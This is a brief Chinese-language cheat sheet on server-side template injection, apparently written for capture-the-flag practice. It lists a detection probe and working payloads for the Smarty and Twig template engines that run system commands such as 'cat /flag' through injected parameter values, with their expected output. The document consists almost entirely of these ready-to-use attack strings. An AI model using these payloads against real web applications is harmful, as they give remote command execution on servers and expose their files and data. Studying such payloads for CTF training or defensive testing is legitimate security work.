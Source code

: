 # SSTI_injection

---

**SSTI模板注入**

```
smarty模板引擎
twig模板引擎
```

**判断注入**

```
参数：user=1                              回显：1
参数：user={{2*2}}                        回显：4
```

**smarty模板引擎**

```
参数：user={if phpinfo()}{/if}            回显：phpinfo页面
参数：user={if system('cat /flag')}{/if}  回显：执行命令cat /flag
```

**twig模板引擎**

```
参数：user={{_self.env.registerUndefined\
FilterCallback("exec")}}{{_self.env.getFi\
lter("cat /flag")}
回显：执行命令cat /flag
```

